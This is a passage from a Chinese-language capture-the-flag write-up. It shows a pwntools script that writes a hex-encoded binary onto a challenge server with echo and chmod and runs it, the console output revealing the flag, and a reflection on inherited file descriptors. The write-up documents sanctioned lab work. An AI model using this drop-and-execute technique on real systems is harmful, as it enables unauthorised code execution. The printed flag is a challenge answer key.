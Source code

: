 ```python
for i in range(0,len(b),2):
	c += '\\x'+b[i]+b[i+1]
payload = 'echo -e "'+c+'"'+'> exp;chmod +x exp; ./exp'
print "[+] length: " + hex(len(payload))

io.recv()
io.sendline("xuan")
io.recv()
io.sendline(payload)
io.recv()
io.interactive()
```

```bash
➜  python exp.py        
[+] Opening connection to grjt.game.redbud.info on port 20003: Done
[+] length: 0x89e3
[*] Switching to interactive mode
Entering your dir
THUCTF{You_mu5t_Be_4_M4ster_1n_7he_5hel1}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00
[+] from server
[*] Got EOF while reading in interactive
```

成功打印flag:THUCTF{You_mu5t_Be_4_M4ster_1n_7he_5hel1}



## 反思

这道题的提示是没有关门，想到了可能是未关闭的文件描述符，于是我当时写下了这样的代码：

```c
#include <unistd.h>

int main(){
    char buf[100]={};
    extern fd;
    read(fd,buf,100);
    write(1,buf,100);
    return 0;
}
```
我是希望我写的fd和父进程的fd可以对上

```c
fd = open(filename, O_WRONLY|O_CREAT)
```

不过编译肯定是不过的，而且看起来这是极其愚蠢的。其实问题出在我并不理解，父子进程的关联不是各自的代码部分，而是操作系统分给的这两个进程资源。这里是文件描述符，父子进程都可以通过0-5这6个整数来访问相同的文件描述符。所以要想明白这种题目，一定是需要理解：进程除了代码还有什么？我们用了一堆函数，一堆系统调用，那背后的库函数，操作系统到底干了什么？